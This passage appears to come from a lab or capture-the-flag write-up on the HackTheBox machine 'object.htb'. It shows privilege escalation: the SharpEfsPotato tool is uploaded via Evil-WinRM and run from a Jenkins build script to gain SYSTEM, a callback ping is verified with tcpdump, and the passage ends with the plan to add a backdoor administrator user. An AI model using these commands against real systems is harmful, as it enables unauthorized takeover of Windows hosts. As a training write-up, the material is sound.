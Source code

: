 The Jenkins service privilege had the  "SeImpersonatePrivilege" privilege. This privilege allows the holder to impersonate a SYSTEM level token and execute a process.  The tester used the "https://github.com/bugch3ck/SharpEfsPotato" tool to exploit this vulnerability and uploaded it using the "Evil-winrm" upload feature.

```
*Evil-WinRM* PS C:\Users\oliver\Documents> upload SharpEfsPotato.exe
                                        
Info: Uploading /home/kali/Documents/Tools/priv_esc/SharpEfsPotato.exe to C:\Users\oliver\Documents\SharpEfsPotato.exe
                                        
Data: 93524 bytes of 93524 bytes copied
                                        
Info: Upload successful!
```
The tester used the "freestyle project" method once again to test the "SharpEfsPotato" exploit by using the ping command. The command used in the build batch script was:

```
C:\Users\oliver\documents\SharpEfsPotato.exe -p "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "ping -n 3 10.10.14.19" 
```

```The project console output.
Started by time
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project
[project] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins10258639311092159459.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>C:\Users\oliver\documents\SharpEfsPotato.exe -p "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe" -a "ping -n 3 10.10.14.19" 
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/34596a48-e682-41f8-8085-10351cf0e784/\34596a48-e682-41f8-8085-10351cf0e784\34596a48-e682-41f8-8085-10351cf0e784
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\project>exit 0 
Finished: SUCCESS
```

The tester used "tcpdump" to monitor the incoming pings.
```tcpdump
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:38:03.979961 IP object.htb > 10.10.14.19: ICMP echo request, id 1, seq 763, length 40
14:38:03.979995 IP 10.10.14.19 > object.htb: ICMP echo reply, id 1, seq 763, length 40
14:38:04.992936 IP object.htb > 10.10.14.19: ICMP echo request, id 1, seq 766, length 40
14:38:04.992956 IP 10.10.14.19 > object.htb: ICMP echo reply, id 1, seq 766, length 40
14:38:06.010512 IP object.htb > 10.10.14.19: ICMP echo request, id 1, seq 769, length 40
14:38:06.010533 IP 10.10.14.19 > object.htb: ICMP echo reply, id 1, seq 769, length 40

```
As the target was well firewalled the tester decided to create a new user with SYSTEM privileges.  First the tester created a user, then added it to the administrator group.
